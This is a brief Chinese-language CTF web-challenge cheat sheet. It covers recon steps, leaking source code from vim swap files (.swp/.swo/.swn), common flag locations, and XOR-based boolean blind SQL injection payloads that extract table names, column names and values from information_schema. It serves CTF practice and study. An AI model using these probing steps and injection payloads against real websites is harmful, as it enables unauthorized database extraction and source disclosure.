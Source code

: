 拿到题，访问web。
查看源码 仔细查看或者搜索关键词，如flag,include等，提示方向。

F12查看网络请求情况。
最好抓包，仔细查看请求头，响应头信息。

查看传参，回显情况。sql注入，文件包含，模板注入。

目录测试，如flag.php，robots.txt
探针/tz.php，/backup.sql

临时文件是在vim编辑文本时就会创建的文件，如果程序正常退出，临时文件自动删除，如果意外退出就会保留，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。所以通过在url后面加上/index.php.swp即可看到flag。
以index.php来说，第一次退出后，缓存文件名为index.php.swp，第二次退出后，缓存文件名为index.php.swo,第三次退出后文件名为index.php.swn。

^
一般flag在/flag或/flag.txt中，也可能在env命令环境变量中，还可能在phpinfo()中。

^
## **sql注入考点**
部分sql盲注入如逻辑布尔盲注，需要使用代码一个一个字符跑出来。

异或盲注?id=1^1^1
在这个前提下，进行布尔盲注，代码中使用二分法加快布尔盲注。
```
获取表名
1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,1))>0)^1
[*] F1naI1y,Flaaaaag~
猜测列名
1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='表名')),1,1))>0)^1
猜测值
1^(ord(substr((select(group_concat(列名))from(表名)),1,1))>0)^1
```

案例：
<https://www.cnblogs.com/upfine/p/16367693.html#:~:text=%E5%88%86%E4%BA%AB%E4%B8%8B%E8%87%AA%E5%B7%B1%E5%9C%A8%E5%AE%8C%E6%88%90%20[>